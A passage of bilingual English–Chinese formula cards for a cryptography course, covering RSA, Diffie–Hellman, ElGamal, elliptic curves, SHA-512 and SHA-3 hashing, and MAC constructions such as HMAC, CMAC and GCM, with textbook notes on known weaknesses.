- \(e\): the public exponent, with \(1<e<\phi(n)\) and \(\gcd(e,\phi(n))=1\) (for example 7)\(e\)：公开指数，须与 \(1<e<\phi(n)\) 和 \(\gcd(e,\phi(n))=1\) 满足相应条件（例如取 7）
- \(d\): the private exponent, the inverse of \(e\) modulo \(\phi(n)\) (here 23)\(d\)：私钥指数，即 \(e\) 模 \(\phi(n)\) 的逆元（此例中为 23）
- Public key \(PU=\{e,n\}\); private key \(PR=\{d,n\}\). Keep \(p\), \(q\) and \(\phi(n)\) secret too, because each of them reveals \(d\).公钥 \(PU=\{e,n\}\)；私钥 \(PR=\{d,n\}\)。\(p\)、\(q\) 和 \(\phi(n)\) 也必须保密，因为它们中的每一个都能推出 \(d\)。
\[C=M^e \bmod n\qquad M=C^d \bmod n\]
- \(M\): a plaintext block, an integer with \(0\le M<n\)\(M\)：一个明文分组，是一个满足 \(0\le M<n\) 的整数
- \(C\): the ciphertext block\(C\)：密文分组
- \(e\), \(n\): the public key of the receiver; \(d\): the private exponent of the receiver\(e\)、\(n\)：接收方的公钥；\(d\)：接收方的私钥指数
- \(x \bmod n\) is the remainder of \(x\) divided by \(n\), from 0 to \(n-1\)\(x \bmod n\) 是 \(x\) 除以 \(n\) 的余数，取值从 0 到 \(n-1\)
\[[(a \bmod n)\times(b \bmod n)] \bmod n=(a\times b) \bmod n\qquad a^b \bmod n=\Big(\prod_{b_i\neq0}\big[a^{2^i} \bmod n\big]\Big) \bmod n\]
- \(a\): the base; \(b\): the exponent; \(n\): the modulus\(a\)：底数；\(b\)：指数；\(n\)：模数
- \(b_i\): bit number \(i\) of \(b\) in binary, counted from the right starting at 0, so \(b=\sum_i b_i2^i\); \(k+1\) is the number of bits of \(b\)\(b_i\)：\(b\) 的二进制表示中第 \(i\) 位（从右往左数，从 0 开始），因此它等于 \(b=\sum_i b_i2^i\)；\(k+1\) 是 \(b\) 的位数
- \(a^{2^i}\): the base squared \(i\) times; each term is the square of the previous one\(a^{2^i}\)：底数连续平方 \(i\) 次；每一项都是前一项的平方
- Cost: \(k\) squarings plus one multiplication for each further 1 bit, at most \(2k\) modular multiplications, about \(1.5k\) on average代价：\(k\) 次平方，加上每个后续的 1 位对应一次乘法，最多 \(2k\) 次模乘，平均约 \(1.5k\) 次
\[V_p=C^{d \bmod (p-1)} \bmod p,\quad V_q=C^{d \bmod (q-1)} \bmod q,\quad M=(V_pX_p+V_qX_q) \bmod n\]
- \(C\): the ciphertext; \(d\): the private exponent; \(p\), \(q\): the secret primes; \(n\): the modulus, \(n=pq\)\(C\)：密文；\(d\)：私钥指数；\(p\)、\(q\)：两个秘密素数；\(n\)：模数，\(n=pq\)
- \(M\): the recovered plaintext block\(M\)：恢复出的明文分组
- \(V_p\): the plaintext modulo \(p\); \(V_q\): the plaintext modulo \(q\)\(V_p\)：明文模 \(p\) 的结果；\(V_q\)：明文模 \(q\) 的结果
- \(X_p=q\,(q^{-1} \bmod p)\) and \(X_q=p\,(p^{-1} \bmod q)\), so that \(M\equiv V_p \pmod p\) and \(M\equiv V_q \pmod q\)\(X_p=q\,(q^{-1} \bmod p)\) 和 \(X_q=p\,(p^{-1} \bmod q)\)，使得 \(M\equiv V_p \pmod p\) 和 \(M\equiv V_q \pmod q\)
- Fermat's theorem allows the exponent to be reduced modulo \(p-1\) and \(q-1\); these exponents, \(X_p\) and \(X_q\) are precomputed费马定理允许把指数分别对 \(p-1\) 和 \(q-1\) 取模化简；这些指数 \(X_p\) 和 \(X_q\) 是预先算好的
\[\frac{\ln N}{2}\]
- \(N\): the size of the number sought, for example \(2^{512}\)\(N\)：所求数的大小，例如 \(2^{512}\)
- \(\ln N\): the natural logarithm of \(N\)\(\ln N\)：\(N\) 的自然对数
- The result is the average number of random odd integers near \(N\) that must be tested before a prime is found结果是：在 \(N\) 附近，平均需要测试多少个随机奇数，才能找到一个素数。
\[t^2-s\,t+n=0,\quad s=n-\phi(n)+1\ \Longrightarrow\ \{p,q\}=\tfrac12\big(s\pm\sqrt{s^2-4n}\big)\]
- \(n\): the public modulus; \(\phi(n)\): its totient, assumed known to the attacker\(n\)：公开的模数；\(\phi(n)\)：它的欧拉函数，假设攻击者已知
- \(s\): the sum \(p+q\) of the two primes, because \(\phi(n)=n-(p+q)+1\)\(s\)：两个素数之和 \(p+q\)，因为 \(\phi(n)=n-(p+q)+1\)
- \(t\): the unknown of the quadratic equation whose two roots are \(p\) and \(q\), since \(pq=n\) and \(p+q=s\)\(t\)：二次方程的未知数，该方程的两个根是 \(p\) 和 \(q\)，因为 \(pq=n\)，且 \(p+q=s\)
\[C'=C\,r^e \bmod n,\qquad M'=(C')^d \bmod n,\qquad M=M'\,r^{-1} \bmod n\]
- \(C\): the ciphertext to decrypt; \(C'\): the blinded ciphertext\(C\)：要解密的密文；\(C'\)：盲化后的密文
- \(r\): a fresh secret random number with \(0<r<n\) and \(\gcd(r,n)=1\); \(r^{-1}\): its inverse modulo \(n\)\(r\)：一个新的秘密随机数，满足 \(0<r<n\) 和 \(\gcd(r,n)=1\)；\(r^{-1}\)：它模 \(n\) 的逆元
- \(e\), \(d\), \(n\): the RSA keys; \(M'\): the result of decrypting \(C'\), equal to \(Mr \bmod n\)\(e\)、\(d\)、\(n\)：RSA 密钥；\(M'\)：对 \(C'\) 解密的结果，它等于 \(Mr \bmod n\)
- It is correct because \((Cr^e)^d=C^dr^{ed}\equiv Mr \pmod n\)之所以正确，是因为 \((Cr^e)^d=C^dr^{ed}\equiv Mr \pmod n\)
\[E(PU,M_1)\cdot E(PU,M_2)\equiv E(PU,M_1M_2) \pmod n\]
- \(E(PU,M)\): RSA encryption of \(M\) with the public key \(PU=\{e,n\}\), that is \(M^e \bmod n\)\(E(PU,M)\)：用公钥 \(PU=\{e,n\}\) 对 \(M\) 做 RSA 加密，即 \(M^e \bmod n\)
- \(M_1\), \(M_2\): two plaintext blocks; \(n\): the modulus\(M_1\)、\(M_2\)：两个明文分组；\(n\)：模数
- It holds because \(M_1^eM_2^e=(M_1M_2)^e\)之所以成立，是因为 \(M_1^eM_2^e=(M_1M_2)^e\)
Chapter 10 Diffie–Hellman, ElGamal and Elliptic Curve Cryptography
\[K=(Y_B)^{X_A}\bmod q=\alpha^{X_BX_A}\bmod q=(Y_A)^{X_B}\bmod q\]
- \(K\): the shared secret key, a number between 1 and \(q-1\)\(K\)：共享的秘密密钥，是 1 到 \(q-1\) 之间的一个数
- \(q\): the public prime modulus, for example 353; \(\alpha\): the public primitive root of \(q\), for example 3\(q\)：公开的素数模数，例如 353；\(\alpha\)：\(q\) 的公开原根，例如 3
- \(X_A\), \(X_B\): the private keys of Alice and Bob, kept secret, each below \(q\)\(X_A\)、\(X_B\)：Alice 和 Bob 的私钥，保密，且各自都小于 \(q\)
- \(Y_A\): Alice's public key, \(\alpha^{X_A}\bmod q\); \(Y_B\): Bob's public key, \(\alpha^{X_B}\bmod q\). Both are sent in the clear.\(Y_A\)：Alice 的公钥，即 \(\alpha^{X_A}\bmod q\)；\(Y_B\)：Bob 的公钥，即 \(\alpha^{X_B}\bmod q\)。两者都以明文形式发送。
- Both sides get the same number because the exponents multiply in either order.双方得到相同的数，因为指数无论按哪种顺序相乘，结果都一样。
\[Y_A=\alpha^{X_A}\bmod q,\qquad K=(Y_A)^{k}\bmod q,\qquad C_1=\alpha^{k}\bmod q,\qquad C_2=KM\bmod q\]
- \(q\): the public prime; \(\alpha\): the public primitive root of \(q\)\(q\)：公开的素数；\(\alpha\)：\(q\) 的公开原根
- \(X_A\): Alice's private key, with \(1\lt X_A\lt q-1\); \(Y_A\): her public key. The public key is the triple \(\{q,\alpha,Y_A\}\).\(X_A\)：Alice 的私钥，满足 \(1\lt X_A\lt q-1\)；\(Y_A\)：她的公钥。公钥是三元组 \(\{q,\alpha,Y_A\}\)。
- \(M\): the plaintext as an integer with \(0\le M\le q-1\). A longer message is split into blocks.\(M\)：以整数表示的明文，满足 \(0\le M\le q-1\)。较长的消息要切分成多个分组。
- \(k\): Bob's random one-time number with \(1\le k\le q-1\); \(K\): the one-time key that masks \(M\)\(k\)：Bob 的随机一次性数，满足 \(1\le k\le q-1\)；\(K\)：用来掩盖 \(M\) 的一次性密钥
- \((C_1,C_2)\): the ciphertext, two numbers below \(q\)\((C_1,C_2)\)：密文，由两个都小于 \(q\) 的数组成
\[K=(C_1)^{X_A}\bmod q,\qquad M=(C_2K^{-1})\bmod q\]
- Symbols as in "ElGamal key generation and encryption", and \(K^{-1}\): the inverse of \(K\) modulo \(q\)符号与“ElGamal 密钥生成与加密”中的相同，另外 \(K^{-1}\) 是 \(K\) 模 \(q\) 的逆元。
- \(K\) is the same key as Bob's, because \((C_1)^{X_A}=(\alpha^k)^{X_A}=(\alpha^{X_A})^k=(Y_A)^k\).\(K\) 与 Bob 的密钥相同，因为 \((C_1)^{X_A}=(\alpha^k)^{X_A}=(\alpha^{X_A})^k=(Y_A)^k\)。
- \(C_2K^{-1}=KMK^{-1}=M\), so the mask is removed.\(C_2K^{-1}=KMK^{-1}=M\)，于是掩码被去掉了。
\[M_2=C_{2,2}\,(C_{2,1})^{-1}M_1\bmod q\]
- \(M_1\): the first plaintext block, known to the attacker; \(M_2\): the second block, unknown\(M_1\)：第一个明文分组，攻击者已知；\(M_2\)：第二个分组，攻击者未知
- \(q\): the public prime modulus\(q\)：公开的素数模数
- \(C_{2,1}\): the second ciphertext part of block 1, equal to \(KM_1\); \(C_{2,2}\): that of block 2, equal to \(KM_2\). Both use the same \(k\) and so the same \(K\).\(C_{2,1}\)：分组 1 的第二部分密文，等于 \(KM_1\)；\(C_{2,2}\)：分组 2 的第二部分密文，等于 \(KM_2\)。两者使用相同的 \(k\)，因此也使用相同的 \(K\)。
- \(K\) cancels in the quotient \(C_{2,2}/C_{2,1}=M_2/M_1\), so one known plaintext exposes the other.\(K\) 在商 \(C_{2,2}/C_{2,1}=M_2/M_1\) 中约去，因此一个已知的明文就能暴露另一个。
\[4a^3+27b^2\ne0\]
- \(a\), \(b\): the two coefficients of the curve \(y^2=x^3+ax+b\)\(a\)、\(b\)：曲线 \(y^2=x^3+ax+b\) 的两个系数
- The condition says that \(x^3+ax+b\) has no repeated factor. Over \(\mathbb{Z}_p\) it reads \((4a^3+27b^2)\bmod p\ne0\), where \(p\) is the prime modulus.该条件说的是 \(x^3+ax+b\) 没有重复的因子。在 \(\mathbb{Z}_p\) 上，它写作 \((4a^3+27b^2)\bmod p\ne0\)，其中 \(p\) 是素数模数。
- If it holds, \(E(a,b)\) with the addition below is an abelian group.若该条件成立，则 \(E(a,b)\) 在下面定义的加法下是一个阿贝尔群。
\[\lambda=\begin{cases}\dfrac{y_Q-y_P}{x_Q-x_P}&P\ne Q\\\dfrac{3x_P^2+a}{2y_P}&P=Q\end{cases}\qquad x_R=\lambda^2-x_P-x_Q,\qquad y_R=\lambda(x_P-x_R)-y_P\]
- \(P\) and \(Q\): the two points added; \(R\): the result, \(P+Q\), or \(2P\) when \(P=Q\)\(P\) 和 \(Q\)：相加的两个点；\(R\)：结果，即 \(P+Q\)；当 \(P=Q\) 时，结果为 \(2P\)
- \(x_P\), \(y_P\): the coordinates of \(P\); \(x_Q\), \(y_Q\): those of \(Q\); \(x_R\), \(y_R\): those of \(R\)\(x_P\)、\(y_P\)：\(P\) 的坐标；\(x_Q\)、\(y_Q\)：\(Q\) 的坐标；\(x_R\)、\(y_R\)：\(R\) 的坐标
- \(\lambda\): the slope of the chord through \(P\) and \(Q\), or of the tangent at \(P\) when \(P=Q\)\(\lambda\)：过 \(P\) 和 \(Q\) 的弦的斜率；当 \(P=Q\) 时，则为 \(P\) 处切线的斜率
- \(a\): the curve coefficient from \(y^2=x^3+ax+b\)\(a\)：由 \(y^2=x^3+ax+b\) 得到的曲线系数
- If \(Q=-P\) (same \(x\), opposite \(y\)) the sum is \(O\). If \(y_P=0\) the double is \(O\).若 \(Q=-P\)（\(x\) 相同，\(y\) 相反），则和为 \(O\)。若 \(y_P=0\)，则倍点为 \(O\)。
- Over \(\mathbb{Z}_p\) reduce every result modulo \(p\). A quotient means a modular inverse.在 \(\mathbb{Z}_p\) 上，每个结果都要对 \(p\) 取模。商即表示模逆元。
\[p+1-2\sqrt{p}\le N\le p+1+2\sqrt{p}\]
- \(N\): the number of points of \(E_p(a,b)\) including \(O\)\(N\)：\(E_p(a,b)\) 的点的个数，包括 \(O\)
- \(p\): the prime modulus, so \(N\) is about \(p\)\(p\)：素数模数，因此 \(N\) 约为 \(p\)
- Example \(E_{23}(1,1)\): \(14.4\le N\le33.6\), and indeed \(N=28\).例 \(E_{23}(1,1)\)：\(14.4\le N\le33.6\)，而且确实 \(N=28\)。
- The order of a point divides \(N\).点的阶整除 \(N\)。
\[P_A=n_AG,\qquad P_B=n_BG,\qquad K=n_AP_B=n_BP_A=n_An_BG\]
- \(G\): the public base point; \(n\): its order, the number of its multiples before \(O\)\(G\)：公开的基点；\(n\)：它的阶，即在 \(O\) 出现之前其倍点的个数
- \(n_A\), \(n_B\): the private keys of Alice and Bob, integers below \(n\)\(n_A\)、\(n_B\)：Alice 和 Bob 的私钥，都是小于 \(n\) 的整数
- \(P_A\), \(P_B\): the public keys, curve points\(P_A\)、\(P_B\)：公钥，都是曲线上的点
- \(K\): the shared secret, a curve point. Its x-coordinate, or a simple function of it, serves as the symmetric key.\(K\)：共享秘密，是曲线上的一个点。它的 x 坐标，或其简单函数，用作对称密钥。
- The two products agree because repeated addition is associative and commutative.两个乘积相等，是因为重复加法满足结合律和交换律。
\[C_m=\{kG,\;P_m+kP_B\},\qquad P_m=(P_m+kP_B)-n_B(kG)\]
- \(P_m\): the message encoded as a point; \(C_m\): the ciphertext, a pair of points\(P_m\)：编码为点的消息；\(C_m\)：密文，是一对点
- \(k\): Alice's random positive integer; \(P_B\) and \(n_B\): Bob's public and private key\(k\)：Alice 选取的随机正整数；\(P_B\) 和 \(n_B\)：Bob 的公钥和私钥
- \(kP_B\) masks \(P_m\). \(kG\) is the clue that only the holder of \(n_B\) can use.\(kP_B\) 掩盖了 \(P_m\)。\(kG\) 是一条线索，只有持有 \(n_B\) 的人才能利用它。
- Check: \(P_m+kP_B-n_B(kG)=P_m+k(n_BG)-n_B(kG)=P_m\).检验：\(P_m+kP_B-n_B(kG)=P_m+k(n_BG)-n_B(kG)=P_m\)。
Chapter 11 Cryptographic Hash Functions
\[P_{\text{coll}}(k)\approx1-e^{-k(k-1)/(2N)},\qquad k_p\approx\sqrt{2N\ln\tfrac{1}{1-p}},\qquad k_{0.5}\approx1.1774\sqrt N\]
- \(k\): number of values drawn at random, here the number of messages hashed\(k\)：随机抽取的值的个数，这里是被散列的消息数。
- \(N\): number of equally likely values, \(N=2^n\) for an \(n\)-bit digest\(N\)：等可能取值的个数，对于 \(n\) 比特的散列值为 \(N=2^n\)。
- \(P_{\text{coll}}(k)\): probability that at least two of the \(k\) values are equal\(P_{\text{coll}}(k)\)：\(k\) 个值中至少有两个相等的概率。
- \(p\): the target probability of a collision, for example 0.5 or 0.9; \(k_p\): the number of values needed to reach \(p\); \(k_{0.5}\) is \(k_p\) for \(p=0.5\)\(p\)：碰撞的目标概率，例如 0.5 或 0.9；\(k_p\)：达到 \(p\) 所需的值的个数；\(k_{0.5}\) 对 \(p=0.5\) 而言是 \(k_p\)。
- \(e\): the base of natural logarithms, 2.718; \(\ln\): natural logarithm, with \(\ln2=0.693\) and \(\ln10=2.303\)\(e\)：自然对数的底，约为 2.718；\(\ln\)：自然对数，其中 \(\ln2=0.693\) 和 \(\ln10=2.303\)。
- Source: \(P(\text{all differ})=\prod_{i=1}^{k-1}(1-i/N)\approx e^{-k(k-1)/2N}\). Setting \(P_{\text{coll}}=p\) and solving for \(k\) gives \(k_p\).来源：\(P(\text{all differ})=\prod_{i=1}^{k-1}(1-i/N)\approx e^{-k(k-1)/2N}\)。令 \(P_{\text{coll}}=p\) 并解出 \(k\)，得到 \(k_p\)。
\[W_{\text{pre}}\approx W_{\text{2nd}}\approx2^{n},\qquad W_{\text{coll}}\approx2^{n/2}\]
- \(n\): digest length in bits, for example 64\(n\)：散列值的长度（比特），例如 64。
- \(W_{\text{pre}}\), \(W_{\text{2nd}}\), \(W_{\text{coll}}\): number of hash evaluations for a preimage, a second preimage and a collision\(W_{\text{pre}}\)、\(W_{\text{2nd}}\)、\(W_{\text{coll}}\)：求原像、第二原像和碰撞所需的散列计算次数。
- A preimage takes \(2^{n-1}\) trials on average. The collision work is the birthday bound: half the bits of the digest.求原像平均需要 \(2^{n-1}\) 次尝试。碰撞所需的工作量由生日界给出，即散列值比特数的一半。
\[CV_0=IV,\qquad CV_i=f(CV_{i-1},Y_{i-1})\ \ (1\le i\le L),\qquad H(M)=CV_L\]
- \(n\): digest length in bits; \(b\): block length in bits, for example 1024\(n\)：散列值长度（比特）；\(b\)：分组长度（比特），例如 1024。
- \(L\): number of blocks of the padded message, including padding and length\(L\)：填充后消息的分组数，包括填充和长度字段。
- \(Y_i\): block number \(i\) of the padded message\(Y_i\)：填充后消息的第 \(i\) 个分组。
- \(CV_i\): the chaining variable after \(i\) blocks, an \(n\)-bit value\(CV_i\)：处理完 \(i\) 个分组后的链接变量，是一个 \(n\) 比特的值。
- \(IV\): the fixed initial value（初始值）, the starting chaining variable \(CV_0\)\(IV\)：固定的初始值，即起始的链接变量 \(CV_0\)。
- \(f\): the compression function; \(H(M)\): the hash, which is the last chaining variable\(f\)：压缩函数；\(H(M)\)：散列值，即最后一个链接变量。
\[p=\big((895-|M|)\bmod1024\big)+1,\qquad N=\left\lceil\frac{|M|+129}{1024}\right\rceil\]
- \(M\): the message; \(|M|\): its length in bits, for example 1000\(M\)：消息；\(|M|\)：消息的长度（比特），例如 1000。
- \(p\): number of padding bits, with \(1\le p\le1024\), so that \(|M|+p\equiv896\pmod{1024}\)\(p\)：填充比特的个数，其中 \(1\le p\le1024\)，使得 \(|M|+p\equiv896\pmod{1024}\)。
- \(N\): number of 1024-bit blocks after padding and the 128-bit length; the ceiling \(\lceil x\rceil\) rounds \(x\) up to the next integer\(N\)：加上填充和 128 比特长度字段后的 1024 比特分组数；上取整 \(\lceil x\rceil\) 把 \(x\) 向上取到下一个整数。
- A message of at most 895 bits fits into one block.长度最多为 895 位的消息可放入一个分组。
\[H_0=IV,\qquad H_i=\mathrm{SUM}_{64}\big(H_{i-1},\,abcdefgh_i\big)\ \ (1\le i\le N),\qquad \text{digest}=H_N\]
- \(H_i\): the 512-bit chaining value after \(i\) blocks; \(H_0=IV\) is the initial value, the eight words of the buffer\(H_i\)：处理完 \(i\) 个分组后的 512 比特链接值；\(H_0=IV\) 是初始值，即缓冲区的八个字。
- \(abcdefgh_i\): the contents of the eight registers after round 79 of block \(i\)\(abcdefgh_i\)：第 \(i\) 个分组第 79 轮结束后八个寄存器的内容。
- \(\mathrm{SUM}_{64}\): eight independent additions modulo \(2^{64}\), one per register\(\mathrm{SUM}_{64}\)：八个相互独立的模 \(2^{64}\) 加法，每个寄存器一个。
- \(N\): number of blocks, as in the padding card\(N\)：分组数，与填充卡片中相同。
\[\begin{aligned}T_1&=h+\mathrm{Ch}(e,f,g)+\Sigma_1(e)+W_t+K_t\\T_2&=\Sigma_0(a)+\mathrm{Maj}(a,b,c)\\(a,b,c,d,e,f,g,h)&\leftarrow(T_1+T_2,\;a,\;b,\;c,\;d+T_1,\;e,\;f,\;g)\end{aligned}\]
- \(a\), \(b\), \(c\), \(d\), \(e\), \(f\), \(g\), \(h\): the eight 64-bit registers; \(T_1\) and \(T_2\): two temporary 64-bit words; all additions are modulo \(2^{64}\)\(a\)、\(b\)、\(c\)、\(d\)、\(e\)、\(f\)、\(g\)、\(h\)：八个 64 位寄存器；\(T_1\) 和 \(T_2\)：两个 64 位的临时字；所有加法均为模 \(2^{64}\)。
- \(W_t\): the message word of round \(t\); \(K_t\): the round constant\(W_t\)：第 \(t\) 轮的消息字；\(K_t\)：轮常数。
- \(\Sigma_0\) and \(\Sigma_1\): rotation mixers defined below; \(\mathrm{Ch}\) and \(\mathrm{Maj}\): bitwise choice and majority\(\Sigma_0\) 和 \(\Sigma_1\)：下面定义的循环移位混合函数；\(\mathrm{Ch}\) 和 \(\mathrm{Maj}\)：逐位的选择函数与多数函数。
- \(\mathrm{Ch}(e,f,g)=(e\wedge f)\oplus(\neg e\wedge g)\): bitwise "if \(e\) then \(f\) else \(g\)"\(\mathrm{Ch}(e,f,g)=(e\wedge f)\oplus(\neg e\wedge g)\)：逐位的“若 \(e\) 则 \(f\)，否则 \(g\)”。
- \(\mathrm{Maj}(a,b,c)=(a\wedge b)\oplus(a\wedge c)\oplus(b\wedge c)\): bitwise majority\(\mathrm{Maj}(a,b,c)=(a\wedge b)\oplus(a\wedge c)\oplus(b\wedge c)\)：逐位的多数函数。
- \(\Sigma_0(a)=\mathrm{ROTR}^{28}(a)\oplus\mathrm{ROTR}^{34}(a)\oplus\mathrm{ROTR}^{39}(a)\); \(\Sigma_1(e)=\mathrm{ROTR}^{14}(e)\oplus\mathrm{ROTR}^{18}(e)\oplus\mathrm{ROTR}^{41}(e)\)
\[W_t=\begin{cases}M_{i,t},&0\le t\le15\\\sigma_1(W_{t-2})+W_{t-7}+\sigma_0(W_{t-15})+W_{t-16},&16\le t\le79\end{cases}\]
- \(W_t\): the 64-bit word used in round \(t\); \(M_{i,t}\): word number \(t\) of block \(i\)\(W_t\)：第 \(t\) 轮所用的 64 位字；\(M_{i,t}\)：第 \(i\) 个分组中的第 \(t\) 个字。
- \(\sigma_0\) and \(\sigma_1\): two mixing functions of one 64-bit word \(x\)\(\sigma_0\) 和 \(\sigma_1\)：针对一个 64 位字 \(x\) 的两个混合函数。
- \(\sigma_0(x)=\mathrm{ROTR}^{1}(x)\oplus\mathrm{ROTR}^{8}(x)\oplus\mathrm{SHR}^{7}(x)\); \(\sigma_1(x)=\mathrm{ROTR}^{19}(x)\oplus\mathrm{ROTR}^{61}(x)\oplus\mathrm{SHR}^{6}(x)\), where \(x\) is a 64-bit word\(\sigma_0(x)=\mathrm{ROTR}^{1}(x)\oplus\mathrm{ROTR}^{8}(x)\oplus\mathrm{SHR}^{7}(x)\)；\(\sigma_1(x)=\mathrm{ROTR}^{19}(x)\oplus\mathrm{ROTR}^{61}(x)\oplus\mathrm{SHR}^{6}(x)\)，其中 \(x\) 是一个 64 位字。
- Additions are modulo \(2^{64}\).加法均为模 \(2^{64}\)。
\[b=r+c=1600,\qquad c=2d,\qquad r=1600-2d\]
- \(b\): state size in bits; \(r\): rate, message bits absorbed per call of \(f\); \(c\): capacity, the bits that are never touched by input or output\(b\)：状态大小（比特）；\(r\)：速率，即每次调用 \(f\) 时吸收的消息比特数；\(c\)：容量，即输入或输出从不触及的比特。
- \(d\): digest length in bits, 224, 256, 384 or 512; the number of calls of \(f\) for a short digest is \(\lceil(|M|+2)/r\rceil\) for a message of \(|M|\) bits\(d\)：散列值长度（比特），可为 224、256、384 或 512；对于短散列值，处理长度为 \(|M|\) 比特的消息时，\(f\) 的调用次数为 \(\lceil(|M|+2)/r\rceil\)。
Chapter 12 Message Authentication Codes and Authenticated Encryption
\[\#\text{consistent keys after } r \text{ pairs}\approx 2^{\,k-rn},\qquad \text{pairs needed}\approx \lceil k/n\rceil\]
- \(k\): key length in bits, for example 80\(k\)：密钥长度（比特），例如 80
- \(n\): tag length in bits, for example 32\(n\)：标签长度（比特），例如 32
- \(r\): the number of known message-tag pairs, all under the same key\(r\)：已知的消息-标签对的数量，都在同一个密钥下
- \(\#\text{consistent keys}\): how many keys still reproduce every known tag; a wrong key reproduces an \(n\)-bit tag with probability \(2^{-n}\) per pair\(\#\text{consistent keys}\)：仍能复现所有已知标签的密钥数；对于每一对，错误的密钥复现一个 \(n\) 比特标签的概率为 \(2^{-n}\)
- If \(k\le n\), one pair usually identifies the key. The total effort stays about \(2^k\).如果 \(k\le n\)，一对通常就足以确定密钥。总代价仍约为 \(2^k\)。
\[\text{effort}\approx\min(2^{k},\,2^{n})\]
- \(\text{effort}\): the number of operations of the cheaper attack\(\text{effort}\)：较便宜的那种攻击的运算次数
- \(k\): key length in bits; \(n\): tag length in bits\(k\)：密钥长度（比特）；\(n\)：标签长度（比特）
- Key search costs about \(2^k\). Guessing a tag costs about \(2^n\), on average \(2^{n-1}\).搜索密钥约需 \(2^k\)。猜测一个标签约需 \(2^n\)，平均需要 \(2^{n-1}\)。
- Design rule: \(\min(k,n)\ge N\) with \(N\) around 128 bits.设计规则：\(\min(k,n)\ge N\) 与 \(N\) 都应在 128 比特左右。
\[\mathrm{HMAC}(K,M)=H\big[(K^+\oplus\text{opad})\,\Vert\,H[(K^+\oplus\text{ipad})\,\Vert\,M]\big]\]
- \(\mathrm{HMAC}(K,M)\): the tag, \(n\) bits long\(\mathrm{HMAC}(K,M)\)：标签，长 \(n\) 比特
- \(H\): the embedded hash function; \(\Vert\): concatenation; \(\oplus\): bitwise XOR\(H\)：内嵌的哈希函数；\(\Vert\)：连接；\(\oplus\)：按位异或
- \(K\): the secret key, recommended length at least \(n\); \(K^+\): \(K\) padded with zeros to \(b\) bits, the block size of \(H\) (512 for SHA-1 and SHA-256)\(K\)：秘密密钥，建议长度至少为 \(n\)；\(K^+\)：\(K\) 在右侧补零到 \(b\) 比特，即 \(H\) 的分组大小（SHA-1 和 SHA-256 为 512 比特）
- \(M\): the message; ipad and opad: the byte constants 0x36 and 0x5C repeated \(b/8\) times\(M\)：消息；ipad 和 opad：字节常数 0x36 和 0x5C，各重复 \(b/8\) 次
- Steps: (1) pad \(K\) to \(K^+\), a 160-bit key with \(b=512\) gets 44 zero bytes; (2) \(S_i=K^+\oplus\text{ipad}\); (3) form \(S_i\Vert M\); (4) hash it; (5) \(S_o=K^+\oplus\text{opad}\); (6) append the hash result to \(S_o\); (7) hash again and output.步骤：(1) 把 \(K\) 补齐到 \(K^+\)；对 160 比特的密钥（带 \(b=512\)）补 44 个零字节；(2) \(S_i=K^+\oplus\text{ipad}\)；(3) 构造 \(S_i\Vert M\)；(4) 对它做哈希；(5) \(S_o=K^+\oplus\text{opad}\)；(6) 把哈希结果附加到 \(S_o\) 之后；(7) 再次哈希并输出。
\[\text{plain hash: } L,\qquad \text{HMAC: } L+3,\qquad \text{HMAC with precomputed states: } L+1\]
- \(L\): the number of blocks of the padded message, for example 16\(L\)：填充后消息的块数，例如 16
- The three costs are numbers of compression-function calls这三项代价都以压缩函数的调用次数计
- A precomputed state is the result of the compression function on \(S_i\) or \(S_o\), stored per key and used in place of the initial value.预计算的状态是对 \(S_i\) 或 \(S_o\) 执行压缩函数的结果；它按密钥保存，并代替初始值使用。
\[C_1=E(K,M_1),\quad C_i=E(K,[M_i\oplus C_{i-1}]),\quad C_n=E(K,[M_n\oplus C_{n-1}\oplus K_1]),\quad T=\mathrm{MSB}_{T_{\text{len}}}(C_n)\]
- \(K\): the cipher key; \(E\): block-cipher encryption; \(\oplus\): bitwise XOR\(K\)：密码密钥；\(E\)：分组密码加密；\(\oplus\)：按位异或
- \(M_i\): message block \(i\), \(b\) bits each, for \(i=1,\dots,n\) (\(n\) here counts blocks)\(M_i\)：消息块 \(i\)，每块 \(b\) 比特，对 \(i=1,\dots,n\)（这里 \(n\) 计的是块数）
- \(C_i\): the chaining value after block \(i\); \(C_n\) is the last\(C_i\)：处理完块 \(i\) 之后的链接值；\(C_n\) 是最后一个
- \(K_1\): the subkey for a complete last block; for an incomplete last block, pad it with a 1 and then 0s up to \(b\) bits and use \(K_2\) instead\(K_1\)：完整的最后一块所用的子密钥；对于不完整的最后一块，先补一个 1，再补 0 直到 \(b\) 比特，然后改用 \(K_2\)
- \(T\): the tag; \(\mathrm{MSB}_{T_{\text{len}}}\) keeps the \(T_{\text{len}}\) leftmost bits\(T\)：标签；\(\mathrm{MSB}_{T_{\text{len}}}\) 保留最左边的 \(T_{\text{len}}\) 比特
- Subkeys: \(L=E(K,0^{b})\), \(K_1=L\cdot x\), \(K_2=L\cdot x^2\) in \(\mathrm{GF}(2^b)\), where \(L\) is the encryption of an all-zero block子密钥：\(L=E(K,0^{b})\)、\(K_1=L\cdot x\)、\(K_2=L\cdot x^2\) 在 \(\mathrm{GF}(2^b)\) 中，其中 \(L\) 是对全零块的加密
\[\mathrm{GHASH}_H(X_1\Vert\dots\Vert X_m)=X_1\cdot H^m\oplus X_2\cdot H^{m-1}\oplus\dots\oplus X_m\cdot H\]
- \(\mathrm{GHASH}_H\): the hash of the block sequence under the hash key \(H\)\(\mathrm{GHASH}_H\)：块序列在哈希密钥 \(H\) 下的哈希值
- \(X_i\): input block \(i\) of 128 bits; \(m\): the number of blocks, for example 9\(X_i\)：输入块 \(i\)，每块 128 比特；\(m\)：块的数量，例如 9
- \(H\): the hash key, \(H=E(K,0^{128})\); \(H^i\) is its \(i\)-th power\(H\)：哈希密钥 \(H=E(K,0^{128})\)；\(H^i\) 是它的 \(i\) 次幂
- \(\cdot\): multiplication in \(\mathrm{GF}(2^{128})\); \(\oplus\): XOR\(\cdot\)：在 \(\mathrm{GF}(2^{128})\) 中的乘法；\(\oplus\)：异或
- The form follows by unrolling \(Y_i\). The powers of \(H\) are precomputed per key, so all terms can be computed in parallel.这个形式可由展开 \(Y_i\) 得到。\(H\) 的各次幂可按密钥预先计算，因此所有项都可以并行计算。
\[\begin{aligned}H&=E(K,0^{128}),\quad J_0=\mathrm{IV}\Vert0^{31}\Vert1,\quad C=\mathrm{GCTR}_K(\mathrm{inc}_{32}(J_0),P)\\ S&=\mathrm{GHASH}_H(A\Vert0^v\Vert C\Vert0^u\Vert[\mathrm{len}(A)]_{64}\Vert[\mathrm{len}(C)]_{64}),\quad T=\mathrm{MSB}_t(\mathrm{GCTR}_K(J_0,S))\end{aligned}\]
